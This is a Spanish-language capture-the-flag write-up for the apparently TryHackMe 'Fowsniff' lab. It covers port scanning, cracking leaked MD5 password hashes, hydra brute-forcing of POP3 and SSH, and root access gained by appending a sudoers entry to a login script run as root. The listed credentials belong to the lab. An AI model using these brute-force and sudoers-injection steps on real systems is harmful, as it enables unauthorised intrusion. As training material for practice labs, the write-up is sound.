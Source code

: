 # Fowsniff

Máquina no muy complicada pero explota un par de concepros guapos, y el root esta guapo
## Initial Scan
```
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP USER PIPELINING UIDL AUTH-RESP-CODE CAPA RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: post-login Pre-login capabilities more listed ID have IDLE AUTH=PLAINA0001 ENABLE SASL-IR OK LITERAL+ LOGIN-REFERRALS IMAP4rev1
```

## Enum

### HTTP

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```
Parece que aquí esta todo correcto, veamos las RRSS de la empresa

### RRSS

```
https://twitter.com/fowsniffcorp
```
Parece que les han pawneado veamos mas a fondo
```
https://pastebin.com/NrAqVeeX
```
Tenemos una serie de hashes, veamos cuales desencriptamos
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
Veamos cuales podemos crackear con crackstation
```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```
Solo nos falta la pass de stone, el sysadmin

## Pop3

Generamos una wordlist con los users y passwords hallados y testamos en el pop3

```bash
 pj@THM$ hydra -L users.txt -P pass.txt 10.10.208.167 pop3
 [110][pop3] host: 10.10.208.167   login: seina   password: scoobydoo2
```
Entremos
```pop3
pj@crow-foot:~$ nc 10.10.208.167 110
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
RETR 1
 +++++++++++++++++++++
 The temporary password for SSH is "S1ck3nBluff+secureshell"
 +++++++++++++++++++++
```
### SSH

Entramos en 

```
pj@THM$ hydra -L users.txt -p "S1ck3nBluff+secureshell" 10.10.208.167 ssh
[22][ssh] host: 10.10.208.167   login: baksteen   password: S1ck3nBluff+secureshell
```

## Privesc

Una vez dentro
```
baksteen@fowsniff:~/Maildir$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
El grupo users es sospechoso 
```
baksteen@fowsniff:~/Maildir$ find / -group users 2> /dev/null
/opt/cube/cube.sh
```
Veamos el script 
```
baksteen@fowsniff:~/Maildir$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
Así mejor 

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

echo 'baksteen  ALL=(ALL:ALL) ALL' >> /etc/sudoers 
```
Mirando el 00-header vemos que se invoca al script cada vez que alguien se logea,veamos si podemos explotar esto

Ahora salimos y entramos de nuevo con la diferencia de que:
```
User baksteen may run the following commands on fowsniff:
    (ALL : ALL) ALL
```

Y ya somos root.

## Easter Egg

```
baksteen@fowsniff:~$ cat /var/www/html/security.txt 
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```
